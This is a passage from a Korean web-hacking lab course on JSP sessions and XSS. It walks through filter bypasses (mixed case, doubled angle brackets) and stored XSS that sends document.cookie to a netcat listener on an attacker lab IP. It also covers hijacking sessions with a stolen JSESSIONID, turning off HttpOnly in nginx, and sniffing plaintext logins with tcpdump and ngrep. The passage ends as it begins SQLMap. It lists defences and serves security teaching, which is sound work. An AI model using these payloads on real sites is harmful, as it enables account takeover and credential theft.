

> **📌 핵심**: `return` 문이 없으면 리다이렉트 후에도 아래 HTML 코드가 실행되어 보안 문제 발생!

### 2. 세션 체크 모듈화 (sessionCheck.jsp)

반복되는 세션 체크 로직을 **별도 파일로 분리**하여 재사용성을 높입니다.

#### sessionCheck.jsp

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" %>

<%
    Boolean isLoggedIn = (Boolean) session.getAttribute("login");

    if (isLoggedIn == null || !isLoggedIn) {
        response.sendRedirect("login.jsp");
        return;
    }
%>
```

#### 모듈 사용 예시 (my_page.jsp)

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" %>

<!-- 세션 체크 모듈 포함 -->
<%@ include file="sessionCheck.jsp" %>

<%
    // 이 아래 코드는 로그인 상태에서만 실행됨
    String userName = (String) session.getAttribute("uName");
    Integer uid = (Integer) session.getAttribute("uid");
    Integer priority = (Integer) session.getAttribute("priority");
    String sessionId = session.getId();
%>

<!DOCTYPE html>
<html>
<head>
    <title>마이 페이지</title>
</head>
<body>
    <h2>사용자 정보</h2>
    <table border="1">
        <tr>
            <th>ID</th>
            <td><%= userName %></td>
        </tr>
        <tr>
            <th>UID</th>
            <td><%= uid %></td>
        </tr>
        <tr>
            <th>권한</th>
            <td><%= priority %></td>
        </tr>
        <tr>
            <th>세션 ID</th>
            <td><%= sessionId %></td>
        </tr>
    </table>
</body>
</html>
```

### 3. 게시판에 로그인 제어 추가

#### 수정 전 (익명 게시판)

```jsp
<!-- board/list.jsp -->
<%@ page language="java" contentType="text/html; charset=UTF-8" %>

<!-- 누구나 접근 가능 -->
<h1>게시판</h1>
<!-- 게시글 목록 출력 -->
```

#### 수정 후 (로그인 필수 게시판)

```jsp
<!-- board/list.jsp -->
<%@ page language="java" contentType="text/html; charset=UTF-8" %>

<!-- ✅ 세션 체크 추가 -->
<%@ include file="../sessionCheck.jsp" %>

<h1>게시판 (로그인 사용자 전용)</h1>
<!-- 게시글 목록 출력 -->
```

> **💡 팁**: `include` 문 한 줄만 추가하면 모든 페이지에 로그인 제어 적용 가능!

---

## XSS 공격 실습

### 1. XSS (Cross-Site Scripting) 개요

XSS는 웹 페이지에 **악의적인 스크립트를 삽입**하여 다른 사용자의 브라우저에서 실행시키는 공격입니다.



### 2. 기본 XSS 공격 시도

#### 게시판 글쓰기

**제목**: 도와주세요
**작성자**: 민원인
**내용**:
```
사이트가 너무 느려요.
개선해 주세요.

<script>
  alert("메롱");
</script>
```

#### 결과

관리자가 해당 게시글을 클릭하면:

```
[팝업 창 표시]
메롱
```

---

### 3. XSS 방어 메커니즘 (save.jsp)

#### 방어 코드 적용

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" %>

<%
    String title = request.getParameter("title");
    String content = request.getParameter("content");

    // 🛡️ XSS 방어: <script> 태그의 꺾쇠 제거
    content = content.replaceAll("<script", "&lt;script");
    content = content.replaceAll("</script>", "&lt;/script&gt;");

    // 데이터베이스에 저장
    // ...
%>
```

#### 방어 결과

**저장된 내용**:
```
사이트가 너무 느려요.
개선해 주세요.

&lt;script&gt;
  alert("메롱");
&lt;/script&gt;
```

**화면 표시**:
```
사이트가 너무 느려요.
개선해 주세요.

<script>
  alert("메롱");
</script>
```

스크립트가 **실행되지 않고 문자열로 표시**됩니다!

---

### 4. XSS 방어 우회 기법

#### 방법 1: 대소문자 혼용

```html
<Script>
  alert("메롱");
</Script>
```

**이유**: `replaceAll("<script")`는 **대소문자를 구분**하므로 `<Script>`는 탐지하지 못함

#### 방법 2: 꺾쇠 중복

```html
<<script>
  alert("메롱");
<</script>>
```

**처리 과정**:
1. `replaceAll("<script", "&lt;script")` 실행
2. `<<script>` → `<&lt;script>` (첫 번째 `<`는 그대로 남음)
3. 브라우저가 `<script>`로 해석하여 실행

#### 방법 3: 다른 이벤트 핸들러 사용

```html

```

`<script>` 태그 없이 JavaScript 실행 가능!

---

### 5. 쿠키 탈취 시도

#### 공격 코드

**제목**: 메미가 너무 시끄러워요
**내용**:
```
조용히 시켜 주세요.

<<script>
  alert(document.cookie);
<</script>>
```

#### 실행 결과 (HTTP-Only OFF 상태)

```
[팝업 창]
JSESSIONID=A7F8E2D1C9B4A3E5F6789012
```

🎯 **세션 ID 노출 성공!**

---

## 세션 탈취 공격

### 1. 세션 ID의 중요성

세션 ID만 있으면 **해당 사용자로 위장**하여 모든 작업을 수행할 수 있습니다.



### 2. 세션 ID 교체 실습

#### Step 1: 희생자의 세션 ID 확인

**Chrome 브라우저 (로그인 상태)**

개발자 도구 (F12) → Application → Cookies

```
Name: JSESSIONID
Value: A7F8E2D1C9B4A3E5F6789012
```

#### Step 2: 공격자의 브라우저 설정

**Edge 브라우저 (로그인 안 함)**

1. 개발자 도구 (F12) → Application → Cookies
2. 현재 쿠키 값 확인:
   ```
   Name: JSESSIONID
   Value: Z9Y8X7W6V5U4T3S2R1Q0P9O8
   ```
3. **Value를 희생자의 세션 ID로 변경**:
   ```
   Name: JSESSIONID
   Value: A7F8E2D1C9B4A3E5F6789012
   ```

#### Step 3: 보호된 페이지 접근

Edge 브라우저 주소창에 입력:
```
http://192.168.186.131/session/my_page.jsp
```

#### 결과

```
사용자 정보
━━━━━━━━━━━━━━━━
ID       | admin
UID      | 0
권한     | 0
세션 ID  | A7F8E2D1C9B4A3E5F6789012
```

🚨 **로그인하지 않았는데 관리자로 접속 성공!**

---

## Netcat을 이용한 세션 수집

### 1. Nginx HTTP-Only 옵션 끄기

#### 설정 파일 위치

```bash
/etc/nginx/sites-available/default
```

#### 수정 내용

```nginx
location / {
    proxy_pass http://192.168.186.132:8080;
    proxy_set_header Host $host;
    proxy_set_header X-Real-IP $remote_addr;

    # 🔓 HTTP-Only 옵션 비활성화 (테스트용)
    proxy_cookie_flags ~ httponly off;
}
```

#### 적용 명령어

```bash
sudo vi /etc/nginx/sites-available/default
# 위 내용 추가 후 저장

sudo systemctl restart nginx
```

> **⚠️ 경고**: 실제 운영 환경에서는 **절대 사용하지 말 것**!

---

### 2. Netcat(NC) 수신 서버 구동

#### 공격자 서버에서 실행

```bash
# 무한 루프로 80번 포트 수신 대기
while :; do nc -l 80 >> /tmp/hack.log; done
```

#### 명령어 분석

| 구성 요소 | 설명 |
|---------|------|
| `while :; do ... done` | 무한 루프 (조건 없음) |
| `nc -l 80` | Netcat으로 80번 포트 Listen |
| `>> /tmp/hack.log` | 수신 데이터를 로그 파일에 누적 저장 |

#### 포트 확인

```bash
sudo netstat -anpt | grep LISTEN

# 결과:
tcp  0  0  0.0.0.0:80  0.0.0.0:*  LISTEN  1234/nc
```

✅ 80번 포트에서 Netcat이 대기 중

---

### 3. 악성 게시글 작성

#### 공격자 서버 IP 확인

```bash
ifconfig

# 결과:
eth0: 192.168.186.133
```

#### XSS 코드 작성

**제목**: 민원입니다
**내용**:
```html
청소 부탁드려요.
거리가 너무 지저분해요.

<<script>
  location.href = "http://192.168.186.133/data?c=" + document.cookie;
<</script>>
```

#### 코드 동작 원리



#### JavaScript 코드 상세

```javascript
location.href = "http://192.168.186.133/data?c=" + document.cookie;
```

| 부분 | 설명 |
|-----|------|
| `location.href` | 현재 페이지를 다른 URL로 이동 |
| `document.cookie` | 현재 페이지의 쿠키 값 (세션 ID 포함) |
| `?c=` | GET 파라미터로 쿠키 전달 |

**실제 요청 URL**:
```
http://192.168.186.133/data?c=JSESSIONID=A7F8E2D1C9B4A3E5F6789012
```

---

### 4. 세션 수집 확인

#### 피해자가 게시글 클릭

브라우저에서 "민원입니다" 게시글 클릭

#### 공격자 서버에서 확인

```bash
cat /tmp/hack.log

# 결과:
GET /data?c=JSESSIONID=A7F8E2D1C9B4A3E5F6789012 HTTP/1.1
Host: 192.168.186.133
User-Agent: Mozilla/5.0 ...
Accept: text/html,application/xhtml+xml...
```

✅ **세션 ID 탈취 성공!**

---

## 보안 대책 종합

### 1. HTTP-Only 옵션 활성화

```nginx
# Nginx 설정
proxy_cookie_flags ~ httponly on;   # 반드시 활성화!
```

### 2. XSS 방어 강화

#### 포괄적인 필터링

```jsp
<%
    String content = request.getParameter("content");

    // 모든 HTML 태그 이스케이프
    content = content.replaceAll("<", "&lt;");
    content = content.replaceAll(">", "&gt;");
    content = content.replaceAll("\"", "&quot;");
    content = content.replaceAll("'", "&#x27;");
%>
```

#### OWASP Java Encoder 라이브러리 사용 (권장)

```jsp
<%@ page import="org.owasp.encoder.Encode" %>

<%
    String safeContent = Encode.forHtml(content);
%>
```

### 3. Content Security Policy (CSP) 설정

```nginx
# Nginx 설정
add_header Content-Security-Policy "default-src 'self'; script-src 'self';" always;
```

### 4. 세션 타임아웃 설정

```xml
<!-- web.xml -->
<session-config>
    <session-timeout>30</session-timeout>  <!-- 30분 -->
</session-config>
```

### 5. Secure & SameSite 쿠키 속성

```nginx
proxy_cookie_flags ~ httponly secure samesite=strict;
```

| 속성 | 설명 | 효과 |
|-----|------|------|
| `httponly` | JavaScript 접근 차단 | XSS 방어 |
| `secure` | HTTPS에서만 전송 | 중간자 공격 방어 |
| `samesite=strict` | 외부 사이트에서 쿠키 전송 차단 | CSRF 방어 |

---

## 실습 체크리스트

### 기본 실습

- [ ] HTTP-Only 옵션 확인 (개발자 도구)
- [ ] 로그인 시스템 구현
- [ ] 세션 체크 모듈 작성
- [ ] 게시판에 로그인 제어 적용
- [ ] 기본 XSS 공격 시도
- [ ] XSS 방어 코드 작성
- [ ] XSS 방어 우회 시도

### 고급 실습 (HTTP-Only OFF 환경)

- [ ] Nginx HTTP-Only 옵션 비활성화
- [ ] 쿠키 탈취 XSS 코드 작성
- [ ] 세션 ID 수동 교체 실습
- [ ] Netcat 수신 서버 구동
- [ ] 악성 게시글 작성 (자동 전송)
- [ ] /tmp/hack.log 확인
- [ ] 탈취한 세션 ID로 로그인

### 보안 강화

- [ ] HTTP-Only 옵션 재활성화
- [ ] 포괄적인 XSS 필터 적용
- [ ] CSP 헤더 설정
- [ ] 세션 타임아웃 설정

---

## 주요 명령어 요약

### Nginx 설정 관련

```bash
# 설정 파일 편집
sudo vi /etc/nginx/sites-available/default

# Nginx 재시작
sudo systemctl restart nginx

# Nginx 상태 확인
sudo systemctl status nginx
```

### Netcat 관련

```bash
# 80번 포트 수신 대기 (1회)
nc -l 80

# 무한 루프로 수신 (로그 저장)
while :; do nc -l 80 >> /tmp/hack.log; done

# 포트 확인
sudo netstat -anpt | grep LISTEN
sudo netstat -anpt | grep :80

# 로그 확인
cat /tmp/hack.log
tail -f /tmp/hack.log  # 실시간 모니터링
```

### MySQL 관련

```bash
# 사용자 테이블 조회
mysql -u root -p -e "SELECT * FROM mydb.users;"

# 샘플 데이터 삽입
mysql -u root -p mydb <<EOF
INSERT INTO users (username, password, priority)
VALUES ('admin', '1234', 0);
EOF
```

---

## 강사 강조 사항

> **🔥 정말 중요합니다!**
>
> 1. **HTTP-Only 옵션은 반드시 켜야 합니다**. 운영 환경에서 끄는 것은 절대 금물!
> 2. **세션 ID만 있으면 해당 사용자가 됩니다**. 세션 관리를 철저히 하세요.
> 3. **XSS는 단순해 보이지만 매우 위험한 취약점**입니다. 모든 사용자 입력을 의심하세요.
> 4. **방어 코드를 우회하는 방법은 무수히 많습니다**. 화이트리스트 방식으로 접근하세요.

> **💡 실무 팁**:
>
> - 로그인 세션은 **30분 타임아웃** 설정이 일반적
> - 관리자 페이지는 **추가 인증** (OTP 등) 권장
> - **HTTPS 사용** 시 `Secure` 쿠키 속성 필수
> - 게시판 글쓰기는 **HTML 에디터 라이브러리** 사용 권장 (자동 필터링)

---

## 트러블슈팅

### 1. 쿠키가 훔쳐지지 않음

**원인**: HTTP-Only 옵션이 활성화됨
**해결**: Nginx 설정에서 `proxy_cookie_flags ~ httponly off;` 추가 후 재시작

### 2. Netcat이 설치되지 않음

```bash
# 설치 명령어
sudo apt update
sudo apt install netcat-traditional
# 또는
sudo apt install netcat-openbsd
```

### 3. 세션 ID 교체 후에도 로그인 안 됨

**원인**: 세션 타임아웃 또는 서버 재시작으로 세션 무효화
**해결**: 희생자가 로그인 상태인지 확인, 세션 ID 다시 탈취

### 4. 게시글에 스크립트가 실행되지 않음

**확인 사항**:
- [ ] save.jsp에 XSS 필터가 적용되어 있는지
- [ ] 꺾쇠 중복 또는 대소문자 우회 시도
- [ ] 브라우저 콘솔(F12)에서 JavaScript 오류 확인

---

## Q&A

**Q: 세션 ID를 알면 정말 그 사람이 될 수 있나요?**
A: 네, 세션 ID만 있으면 서버는 해당 사용자로 인식합니다. 비밀번호 없이도 로그인 상태를 유지할 수 있습니다.

**Q: 왜 옛날에는 쿠키 탈취가 쉬웠나요?**
A: 예전에는 HTTP-Only 옵션이 디폴트가 아니었습니다. 웹 서버가 기본적으로 쿠키를 JavaScript에 노출시켰죠.

**Q: XSS 방어를 완벽하게 하려면?**
A: 모든 사용자 입력을 **서버 측에서 검증**하고, **출력 시 이스케이프** 처리해야 합니다. OWASP 라이브러리 사용을 권장합니다.

**Q: Netcat 대신 다른 도구를 사용할 수 있나요?**
A: 네, Python의 SimpleHTTPServer, Node.js Express, PHP 내장 서버 등 다양한 대안이 있습니다.

---

## 다음 섹션 예고

**Section 3: SQL Injection 심화 분석**

- Blind SQL Injection
- Time-based SQL Injection
- Error-based SQL Injection
- SQLMap 자동화 도구
- 데이터베이스 완전 장악 시나리오

---

## 학습 마무리

이번 섹션에서는:

1. ✅ **HTTP-Only 옵션**의 중요성과 쿠키 보안 이해
2. ✅ **세션 메커니즘** 완전 정복
3. ✅ **JSP 로그인 시스템** 구현 (Prepared Statement 포함)
4. ✅ **세션 기반 접근 제어** 모듈화
5. ✅ **XSS 공격**의 원리와 방어 기법
6. ✅ **세션 탈취** 전체 시나리오 실습
7. ✅ **Netcat**을 이용한 자동 세션 수집

웹 보안의 핵심인 **세션 관리와 XSS**를 실습을 통해 체득했습니다. 이제 공격자의 시각과 방어자의 시각을 모두 이해하게 되었습니다!

**계속해서 Section 3에서는 SQL Injection을 더 깊이 파고들어 봅시다!** 🚀
# Section 3: 고급 해킹 도구 및 기법 (Advanced Hacking Tools & Techniques)

## 목차
1. [TCPDump를 이용한 네트워크 스니핑](#tcpdump를-이용한-네트워크-스니핑)
2. [ngrep 실시간 트래픽 필터링](#ngrep-실시간-트래픽-필터링)
3. [SQLMap 자동화 SQL Injection](#sqlmap-자동화-sql-injection)
4. [Nikto 웹 취약점 스캐너](#nikto-웹-취약점-스캐너)
5. [Nmap 포트 스캐닝](#nmap-포트-스캐닝)
6. [Hydra SSH 무작위 대입 공격](#hydra-ssh-무작위-대입-공격)
7. [OS 지문 인식 (OS Fingerprinting)](#os-지문-인식-os-fingerprinting)

---

## TCPDump를 이용한 네트워크 스니핑

### 1. TCPDump 개요

TCPDump는 **네트워크 인터페이스를 통과하는 모든 패킷을 캡처**하는 강력한 도구입니다.



### 2. 기본 사용법

#### 인터페이스 확인

```bash
ifconfig

# 결과:
ens33: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.186.131  netmask 255.255.255.0
```

**ens33**이 네트워크 인터페이스 이름입니다.

#### 기본 캡처 명령어

```bash
# 모든 트래픽 캡처
sudo tcpdump -i ens33

# ASCII 코드만 출력 (읽기 쉬움)
sudo tcpdump -i ens33 -A

# 특정 포트 필터링
sudo tcpdump -i ens33 -A "tcp port 80"

# 사이즈 제한 없이 캡처
sudo tcpdump -i ens33 -A -s 0 "tcp port 80"
```

#### 옵션 설명

| 옵션 | 설명 | 예시 |
|-----|------|------|
| `-i` | 인터페이스 지정 | `-i ens33` |
| `-A` | ASCII 코드로 출력 | 읽기 쉬운 텍스트 |
| `-s` | 캡처 사이즈 (0=무제한) | `-s 0` |
| `-w` | 파일로 저장 | `-w capture.pcap` |
| `-r` | 파일 읽기 | `-r capture.pcap` |

---

### 3. 로그인 정보 스니핑 실습

#### 서버 측 (웹 서버)

```bash
# 80번 포트 트래픽을 ASCII로 캡처
sudo tcpdump -i ens33 -A -s 0 "tcp port 80"
```

#### 클라이언트 측 (브라우저)

로그인 페이지에서 ID/비밀번호 입력:
```
ID: admin
Password: 1234
```

#### 캡처 결과 분석

```
POST /session/loginCheck.jsp HTTP/1.1
Host: 192.168.186.131
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

uName=admin&pass=1234
```

🚨 **평문으로 전송되는 로그인 정보 노출!**

---

### 4. 파일로 저장 후 Wireshark로 분석

#### 캡처 파일 저장

```bash
# 100개 패킷만 캡처하여 파일로 저장
sudo tcpdump -i ens33 -w /tmp/capture.pcap -c 100 "tcp port 80"

# 실시간 진행 상황
tcpdump: listening on ens33, link-type EN10MB (Ethernet), capture size 262144 bytes
100 packets captured
```

#### 파일 다운로드 및 분석

```bash
# SCP로 로컬로 전송
scp user@192.168.186.131:/tmp/capture.pcap ./

# Wireshark로 열기 (Windows/Mac)
# 파일 → 열기 → capture.pcap
```

**Wireshark에서 확인 가능한 정보**:
- HTTP 요청/응답 전체 내용
- 쿠키 값
- POST 파라미터
- 세션 ID

---

## ngrep 실시간 트래픽 필터링

### 1. ngrep vs TCPDump

| 구분 | TCPDump | ngrep |
|-----|---------|-------|
| **실시간 필터링** | ❌ (파이프라인 문제) | ✅ |
| **문자열 검색** | grep 필요 | 내장 지원 |
| **출력 형식** | 바이너리 + ASCII | 텍스트 중심 |
| **사용 난이도** | 중급 | 초급 |

### 2. TCPDump + grep 문제점

#### 시도했던 방법 (실패)

```bash
# ❌ 작동하지 않음!
sudo tcpdump -i ens33 -A "tcp port 80" | grep -A 20 "POST /session/loginCheck.jsp"
```

#### 실패 이유



> **📌 핵심**: TCPDump는 **종료되지 않고 계속 실행**되므로 파이프라인 뒤의 grep이 작동하지 않음

---

### 3. ngrep 설치 및 사용

#### 설치

```bash
sudo apt update
sudo apt install ngrep
```

#### 기본 사용법

```bash
# 특정 문자열이 포함된 패킷만 필터링
ngrep -d ens33 "POST /session/loginCheck.jsp" port 80

# 대소문자 구분 없이 검색
ngrep -d ens33 -i "login" port 80

# 여러 줄 출력
ngrep -d ens33 -W byline "POST" port 80
```

#### 옵션 설명

| 옵션 | 설명 |
|-----|------|
| `-d` | 네트워크 인터페이스 지정 |
| `-i` | 대소문자 구분 없이 검색 |
| `-W byline` | 줄바꿈 처리 (가독성 향상) |
| `port 80` | 포트 필터 |

---

### 4. 실전 로그인 정보 캡처

#### 명령어 실행

```bash
ngrep -d ens33 -W byline "POST /session/loginCheck.jsp" port 80
```

#### 로그인 시도 (브라우저)

```
http://192.168.186.131/session/login.jsp

ID: admin
Password: abcd1234
```

#### 캡처 결과

```
T 192.168.1.100:54321 -> 192.168.186.131:80 [AP]
POST /session/loginCheck.jsp HTTP/1.1
Host: 192.168.186.131
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

uName=admin&pass=abcd1234
```

✅ **실시간으로 로그인 정보 탈취 성공!**

---

## SQLMap 자동화 SQL Injection

### 1. SQLMap 개요

SQLMap은 **SQL Injection 취약점을 자동으로 탐지하고 데이터베이스를 공격**하는 오픈소스 도구입니다.



### 2. 설치

```bash
sudo apt update
sudo apt install sqlmap
```

---

### 3. 취약한 로그인 페이지 준비

#### login.html

```html
<!DOCTYPE html>
<html>
<head>
    <title>로그인</title>
</head>
<body>
    <h2>로그인</h2>
    <form action="login.jsp" method="post">
        <input type="text" name="id" placeholder="아이디">
        <input type="password" name="pass" placeholder="비밀번호">
